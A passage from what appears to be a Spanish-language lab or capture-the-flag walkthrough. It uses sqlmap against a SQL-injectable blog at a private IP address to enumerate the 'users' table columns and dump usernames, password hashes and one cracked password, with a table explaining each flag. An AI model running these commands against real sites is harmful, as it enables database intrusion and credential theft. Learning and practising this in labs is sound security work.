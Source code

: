 <br>

Hay 3 tablas y ahí podemos ver la tabla **users**.

Obtengamos las columnas de esa tabla:
```bash
sqlmap -u 'http://192.168.10.240/post.php?id=1' --batch -D 'blog' -T 'users' --columns
...
[09:24:17] [INFO] fetching columns for table 'users' in database 'blog'
Database: blog
Table: users
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int          |
| password | varchar(255) |
| username | varchar(100) |
+----------+--------------+
...
```

| Parámetros | Descripción |
|--------------------------|
| *-u*       | Define la URL objetivo. |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |
| *-D*       | Selecciona una base de datos especifica a enumerar. |
| *-T*       | Selecciona una tabla especifica a enumerar. |
| *--columns* | Enumera las columnas de una tabla específica. |

<br>

Excelente, ahí se encuentra un usuario y contraseña.

Obtengamos esos datos, dumpeando toda la tabla:
```bash
sqlmap -u 'http://192.168.10.240/post.php?id=1' --batch -D 'blog' -T 'users' --dump
...
[09:24:37] [INFO] cracked password 'runner' for user 'david'                                                                                                                                 
Database: blog                                                                                                                                                                               
Table: users
[3 entries]
+----+---------------------------------------------------------------------------+----------+
| id | password                                                                  | username |
+----+---------------------------------------------------------------------------+----------+
| 1  | 527aa9f431539da8e151d5434d1d5e611d973f601d8e970790882624554146b0 (runner) | david    |
| 2  | 7927e941a969cdf471354e79b7ae29ae25ca04d59f66d6c19f9c43a9367ec498          | maria    |
| 3  | febb36d29baf28da1a00cad0cc6937d49f13738ff9dd88276e7c85920d2bff40          | ian      |
+----+---------------------------------------------------------------------------+----------+
...
```
